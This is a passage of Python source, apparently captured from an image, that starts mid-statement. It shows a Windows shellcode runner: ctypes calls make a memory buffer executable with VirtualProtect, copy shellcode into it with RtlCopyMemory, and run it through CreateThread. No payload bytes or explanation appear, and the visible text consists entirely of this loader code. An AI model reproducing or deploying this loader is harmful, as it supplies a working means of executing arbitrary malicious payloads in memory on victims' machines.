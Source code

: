 ```python
    len(shellcode)
)

ctypes.windll.kernel32.VirtualProtect(
    ptr_realloc,
    ctypes.c_int(len(shellcode)),
    0x40,
    ctypes.byref(ctypes.c_long(1))
)

buffer = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)

ctypes.windll.kernel32.RtlCopyMemory(
    ctypes.c_uint64(ptr_realloc),
    buffer,
    ctypes.c_int(len(shellcode))
)

handle = ctypes.windll.kernel32.CreateThread(
    ctypes.pointer(ctypes.c_int(0)),
    ctypes.c_int(0),
    ctypes.c_void_p(ptr_realloc),
    ctypes.pointer(ctypes.c_int(0)),
    ctypes.c_int(0),
    ctypes.pointer(ctypes.c_int(0))
)

ctypes.windll.kernel32.WaitForSingleObject(
    ctypes.c_int(handle),
    ctypes.c_int(-1)
)
```

![](img/5.png)
